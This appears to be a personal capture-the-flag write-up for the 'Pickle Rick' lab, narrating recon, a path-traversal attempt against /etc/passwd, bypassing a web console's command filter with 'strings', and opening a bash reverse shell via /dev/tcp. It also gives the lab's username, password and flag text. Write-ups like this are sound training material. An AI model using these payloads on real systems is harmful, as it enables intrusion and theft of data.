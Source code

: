 # Pickle Rick
A Rick and Morty CTF. Help turn Rick back into a human!

Machine ip
```
export IP=10.10.137.117
```

- Performing an nmap scan as my first line of movement.

- I found some pretty interesting things in the webpage's source
```
Username: R1ckRul3s
```

- found some interesting thing in the robots.txt file also
```
Wubbalubbadubdub
```

- I am using the local file inclusion attack style to gather info about the directory structure of the server. I am going back many times to see if i can access the /etc/passwd since the server is running linux.
```
http://$IP:80/?page=../../../../../../../../../../../etc/passwd
```
This method totally did not work :(.

- Apparently the directory scan was shallow so i'm going to do another scan and see what i'll see.
Found couple of php directories that are worth checking out. I found a 
```
portal.php
login.php
```
Ohhhh fuck! I had the username and a likely password and didn't even think to try it. Fuck me.

- I found some page that let's me execute a linux command in my current directory.
I viewed the source of the webpage and found a likely base64 encoded data that i am having a hard time decoding with my famous oneliner :).
`Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==`

- I got the first flag :D. Nobody should have this type of web console on their website. 
```
mr. meeseek hair
```
Never will i ever keep sensitive data in the `/var/www/html` directory of a webserver. Thats bad shit.
So i tried to read the source of the the `.php` files. The web console prevent me from using 
`("cat", "head", "more", "tail", "nano", "vim", "vi")`. But i remembered there is the use of strings to echo strings back to me, so i used that to get the source code of the webpages in the html directory. But they were not that helpful to getting the flags.

- Got the second flag by going to the traversing to `/home/rick` and found a `second ingredients` file that contained the second flag :( "juicy!".
Hmm looks like there is bash on the server, lemme try a classic bash reverse shell trick and see what happens :D.
`/bin/bash -c "bash -i >& /dev/tcp/$IP/9999 0>&1"`
I got a dumb reverse shell from the web server. I am trying to get a stable but i only know how to do that i python and the server doesn't run python soo i'll just keep looking.
